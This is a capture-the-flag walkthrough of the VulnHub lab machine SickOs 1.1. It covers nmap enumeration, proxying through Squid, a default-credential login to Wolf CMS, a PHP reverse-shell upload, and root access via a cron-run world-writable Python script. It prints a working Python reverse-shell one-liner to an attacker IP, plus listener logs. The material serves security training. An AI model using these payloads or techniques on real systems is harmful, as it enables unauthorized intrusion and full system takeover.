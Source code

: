 # SickOs: 1.1

## 1.Get VM IP

```text
root㉿kali:~# arp-scan -I eth1 -l
                       
Interface: eth1, type: EN10MB, MAC: 00:0c:29:3a:bc:b3, IPv4: 192.168.127.128
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.127.1   00:50:56:c0:00:01       VMware, Inc.
192.168.127.229 00:0c:29:25:b7:8a       VMware, Inc.
192.168.127.254 00:50:56:fd:64:8a       VMware, Inc.
```
The IP address is `192.168.127.229`, let's enumerate it.

## 2.Enumeration

```text
root㉿kali:~# nmap -sV -sC -p- -oN fullscan 192.168.127.229

Nmap scan report for 192.168.127.229
Host is up (0.00041s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE  SERVICE    VERSION
22/tcp   open   ssh        OpenSSH 5.9p1 Debian 5ubuntu1.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 09:3d:29:a0:da:48:14:c1:65:14:1e:6a:6c:37:04:09 (DSA)
|   2048 84:63:e9:a8:8e:99:33:48:db:f6:d5:81:ab:f2:08:ec (RSA)
|_  256 51:f6:eb:09:f6:b3:e6:91:ae:36:37:0c:c8:ee:34:27 (ECDSA)
3128/tcp open   http-proxy Squid http proxy 3.1.19
|_http-server-header: squid/3.1.19
|_http-title: ERROR: The requested URL could not be retrieved
8080/tcp closed http-proxy
MAC Address: 00:0C:29:25:B7:8A (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Port `3128` is for squid proxy and is open, so the system is using some kind of proxy here

and port 8080 is closed, maybe because of proxy.

so we need to proxy our traffic through squid to see if any website is available, go [here](https://book.hacktricks.xyz/network-services-pentesting/3128-pentesting-squid) for details.

```text
root㉿kali:~# curl --proxy http://192.168.127.229:3128 http://192.168.127.229

<h1>
BLEHHH!!!
</h1>
```

yes, there is a website here, let's check for `robots.txt` :

```text
root㉿kali:~# curl --proxy http://192.168.127.229:3128 http://192.168.127.229/robots.txt

User-agent: *
Disallow: /
Dissalow: /wolfcms
```

the path `wolfcmd` is dissalowed here, i just set my firefox proxy to point to `192.168.127.229:3128` and visited the `/wolfcms` :

![mainpage](https://github.com/Git-K3rnel/VulnHub/assets/127470407/d1740ada-f57f-4b86-bed9-010d97eac250)

since this is a CMS, i quickly checked searchsploit for any exploits :

```text
searchsploit wolf cms  
----------------------------------------------------------------------------------
 Exploit Title                                          |  Path
----------------------------------------------------------------------------------
Wolf CMS - Arbitrary File Upload / Execution            | php/webapps/38000.txt
Wolf CMS 0.6.0b - Multiple Vulnerabilities              | php/webapps/15614.html
Wolf CMS 0.7.5 - Multiple Vulnerabilities               | php/webapps/18545.txt
Wolf CMS 0.8.2 - Arbitrary File Upload                  | php/webapps/36818.php
Wolf CMS 0.8.2 - Arbitrary File Upload (Metasploit)     | php/remote/40004.rb
Wolf CMS 0.8.3.1 - Remote Code Execution (RCE)          | php/webapps/51421.txt
----------------------------------------------------------------------------------
Shellcodes: No Results
```

i looked at one of [them](https://www.exploit-db.com/exploits/38000), and it mentioned a vulnerable URL there (http://targetsite.com/wolfcms/?/admin/plugin/file_manager/browse/)

just manually visited the url and i was redirected to a login page (i did not know the exact path of admin page but i found it this way)

simply tried `admin:admin` and booom, i was in.

## 3.Gaining Shell

Looking at the result of the searchsploit for RCE [php/webapps/51421.txt](https://www.exploit-db.com/exploits/51421) i created a php reverse shell from pentestmonkey and put it

in `Files` menu and `Create new file` saved it and located it in `/public` :

![shell](https://github.com/Git-K3rnel/VulnHub/assets/127470407/90440763-4b65-4ac5-a76f-18bc7133ef30)

open the `shell.php` and prepare a listener on your kali machine, you will get the shell.

```text
root㉿kali:~# nc -nvlp 4444
listening on [any] 4444 ...

connect to [192.168.127.128] from (UNKNOWN) [192.168.127.229] 41750
Linux SickOs 3.11.0-15-generic #25~precise1-Ubuntu SMP Thu Jan 30 17:42:40 UTC 2014 i686 i686 i386 GNU/Linux
 22:03:28 up  2:01,  0 users,  load average: 0.00, 0.01, 0.05
USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## 4.Privilege Escalation

I navigated to `/var/www` and found a python file which is world writable :

```text
www-data@SickOs:/$ cd /var/www
www-data@SickOs:/var/www$ ls -l
total 16
-rwxrwxrwx 1 root root  319 Sep 19 20:55 connect.py
-rw-r--r-- 1 root root   21 Dec  5  2015 index.php
-rw-r--r-- 1 root root   45 Dec  5  2015 robots.txt
drwxr-xr-x 5 root root 4096 Dec  5  2015 wolfcms
```

and the content of the file is interesting :

```python
#!/usr/bin/python

print "I Try to connect things very frequently\n"
print "You may want to try my services"
```

as it says here that does execute the program `frequently`, i guessed maybe there is a cronjob for it on the system

just check the cronjobs :

```text
www-data@SickOs:/var/www$ ls /etc/cron*
/etc/crontab

/etc/cron.d:
automate  php5

/etc/cron.daily:
apache2  apt       bsdmainutils  logrotate  mlocate  popularity-contest  update-notifier-common
apport   aptitude  dpkg          man-db     passwd   standard

/etc/cron.hourly:

/etc/cron.monthly:

/etc/cron.weekly:
apt-xapian-index  man-db
```

yes, there is a `automate` file in `cron.d` that executes the connect.py

```text
www-data@SickOs:/var/www$ cat /etc/cron.d/automate 

* * * * * root /usr/bin/python /var/www/connect.py
```

start another listener and just paste a python reverse shell in this file :

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.127.128",4445));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")
```

wait for a minute and you will get the root shell and find the flag in /root:

```text
root㉿kali:~#nc -nvlp 4444
listening on [any] 4444 ...
connect to [192.168.127.128] from (UNKNOWN) [192.168.127.229] 41760
# id
id
uid=0(root) gid=0(root) groups=0(root)

# ls /root 
ls /root
a0216ea4d51874464078c618298b1367.txt

# cat /root/a0216ea4d51874464078c618298b1367.txt
cat /root/a0216ea4d51874464078c618298b1367.txt
If you are viewing this!!

ROOT!

You have Succesfully completed SickOS1.1.
Thanks for Trying
```

this is how you can hack this machine :)







